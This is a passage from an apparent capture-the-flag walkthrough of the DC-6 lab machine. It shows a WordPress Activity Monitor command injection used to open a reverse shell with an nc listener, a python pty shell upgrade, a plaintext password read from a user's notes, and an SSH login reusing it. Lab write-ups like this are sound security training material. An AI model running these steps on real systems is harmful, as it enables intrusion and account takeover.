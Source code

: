 RedHat Linux 6.0/6.1/6.2 - 'pam_console' Monitor Activity After Logout             | linux/local/19900.c
WordPress Plugin Plainview Activity Monitor 20161228 - (Authenticated) Command Inj | php/webapps/45274.html
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:/data/DC_6$ searchsploit -m 45274 
```
## Exploit the Wordpress Activity Monitor plugin
### Tamper the request in BurpSuite
Opening the exploit file (html) shows that the “ip” field of the “tools > lookup” feature of “activity monitor” is vulnerable to command injection. Let’s start a listener (rlwrap nc -nlvp 4444) and capture the request in BurpSuite. Modify the payload in BurpSuite to append a reverse shell as follows:

![5ac05389692acd94b54f8f206d9cb9ca.png](../_resources/5ac05389692acd94b54f8f206d9cb9ca.png)

## Reverse shell
We now have a reverse shell:
```
kali@kali:/data/DC_6/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.161] 41564
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
```
## Lateral move
www-data -> graham
Enumerating the /home folder reveals an interesting TODO file in ```mark```’s home folder.
```md
www-data@dc-6:/home/mark/stuff$ cat things-to-do.txt
cat things-to-do.txt
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```
The file is disclosing ```graham```’s password. Let’s switch to graham:
```md
www-data@dc-6:/home/mark/stuff$ su graham
su graham
Password: GSo7isUM1D4

graham@dc-6:/home/mark/stuff$ id
id
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)
```
## graham -> jens
Free up the reverse shell and connect via SSH:
```
kali@kali:/data/DC_6/files$ sshpass -p "GSo7isUM1D4" ssh graham@wordy
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```
